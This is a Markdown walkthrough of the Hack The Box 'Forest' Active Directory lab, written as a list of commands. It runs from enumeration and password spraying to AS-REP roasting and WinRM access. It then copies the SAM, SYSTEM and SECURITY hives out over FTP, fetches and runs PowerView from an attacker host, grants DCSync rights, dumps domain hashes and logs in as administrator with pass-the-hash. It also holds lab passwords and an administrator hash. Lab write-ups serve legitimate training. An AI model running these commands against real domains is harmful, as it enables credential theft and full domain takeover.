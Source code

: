 # Forest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

### NMAP RECON :

``nmap -sC -sV -oA forest 10.10.10.161``

``sleep300; nmap -p- -oA fullforst 10.10.10.161``

### SMB RECON :

``smbclient -L 10.10.10.161``

### LDAP RECON :

``ldapsearch -h 10.10.10.161 -x``

``ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" > ldap-anonymous.out``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i samaccountname``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i userPrincipalName``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i pwdLastSet``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' samaccountname userPrincipalName pwdLastSet``

> google pwdLastSet ldap to human

https://www.epochconverter.com/ldap # Allows to transform data and to know if the accounts are valid 

### Transform commandes into a clean list of users and mails:

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap`` 

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' userPrincipalName | grep userPrincipalName | awk '{print $2}' > listmail.ldap``

### RPC RECON :

``rpcclient -U '' -N 10.10.10.161``

``enumdomusers``

``queryusergroups 0x47b``

``querygroup 0x47c``

``queryuser svc-alfresco``

![foret1](https://user-images.githubusercontent.com/123066149/219473940-1d997e3f-02fc-43da-b23a-1b1caf983c85.PNG)

![foret2](https://user-images.githubusercontent.com/123066149/219474000-d7af10d8-b7c2-4ca7-9a8e-fd5ee81e850b.PNG)

### AD passwords policy with CME (crackmapexec) :

``crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''``

``crackmapexec smb 10.10.10.161 --pass-pol -u 'user.lst' -p 'passwd.lst'``

### Password spray with crackmapexec

``crackmapexec smb 10.10.10.161 -u 'user.lst' -p 'passwd.lst'``

### Which makes it possible to advance on this box

``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/``       :white_check_mark:

![foret3](https://user-images.githubusercontent.com/123066149/219474106-21ca5839-47c6-490d-a634-04ffff9ea1ae.PNG)


``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/ -format hashcat``

![foret4](https://user-images.githubusercontent.com/123066149/219474172-104cc2cc-402f-4c70-875d-de718e5343cf.PNG)


``hashcat --example-hashes | grep -i krb``

``hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt`` # ippsec add -r rules/InsidePro-PasswordsPro.rule try to understand why

![foret5](https://user-images.githubusercontent.com/123066149/219474212-b889f930-8baa-4792-8ca8-2dca650ce1f5.PNG)


# ${{\color{purple}Initial Foothold}}\ $

### Test with a valid user :
 
``crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

``crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares``

# ${{\color{purple}Exploitation}}\ $

### port 5985 is important it is Win-RM (powershell remoting)

``locate evil-winrm``

``/usr/bin/evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161``

![foret6](https://user-images.githubusercontent.com/123066149/219474485-14552105-e748-4666-b91c-bf4ffa8ebbd0.PNG)


# ${{\color{purple}Privilege Escalation}}\ $

### File transfer with FTP:

``find . | grep exe$``

``impacket-smbserver idk $(pwd) -smb2support -user user -password idkazewxc123``

![foret7](https://user-images.githubusercontent.com/123066149/219474532-29bb4e52-4708-4b0f-a113-c9208183c429.PNG)


``$pass = convertto-securestring 'idkazewxc123' -AsPlainText -Force``

``$cred = New-Object System.Management.Automation.PSCredential('HTB\ippsec', $pass)``

``New-PSDrive -PSProvider FileSystem \\10.10.16.5``


``systemctl restart pure-ftpd``

``echo open 10.10.16.5 21> ftp.txt``

``echo USER offsec>> ftp.txt``

``echo lab>> ftp.txt``

``echo bin>> ftp.txt``

``echo PUT C:\windows\system32\config\SYSTEM>> ftp.txt``

``echo PUT C:\windows\system32\config\SAM>> ftp.txt``

``echo PUT C:\windows\system32\config\SECURITY>> ftp.txt``

``echo bye>> ftp.txt``



``ftp -v -n -s:ftp.txt``

``systemctl stop pure-ftpd``

### File transfer with SMB :

``New-PSDrive -Name ippsec4 -PSProvider FileSystem -Root \\10.10.16.5\test``

``cd ippsec4:``

``/usr/share/doc/python3-impacket/examples/smbserver.py test /mnt/share -smb2support``

### Bloodhound :

### if there is an installation of bloodhound and I don't remember the password neo4j delet :

``rm /usr/share/neo4j/data/dbms/auth``

``neo4j console``

``neo4j password : sparta-castro-union-labor-pluto-9066``


``./BloodHound --no-sandbox``

``.\SharpHound.exe -c all``

![foret8](https://user-images.githubusercontent.com/123066149/219474603-46922d67-0cc6-4e78-a08f-7ae8974f63fc.PNG)

### Bloodhound search :

``-Mark User as Owned``
``-Search for Shortest Path from Owned Principals``

``net user evil evil123 /add /domain``

``net group "Exchange Windows Permissions"``

``net group "Exchange Windows Permissions" /add evil``

### File transfer with SMB :

``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8080/PowerView.ps1')``

``$pass = convertto-securestring 'evil123' -AsPlainText -Force``

``$cred = New-Object System.Management.Automation.PSCredential('HTB\evil', $pass)``

``Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity evil -Rights DCSync``

``/usr/bin/impacket-secretsdump htb.local/evil:evil123@10.10.10.161``

``crackmapexec smb 10.10.10.161 -u 'administrator' -H 32693b11e6aa90eb43d32c72a07ceea6``

``/usr/bin/impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161``

# ${{\color{purple}Points of Improvement}}\ $

- Don't forget / in impacket :

``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/``
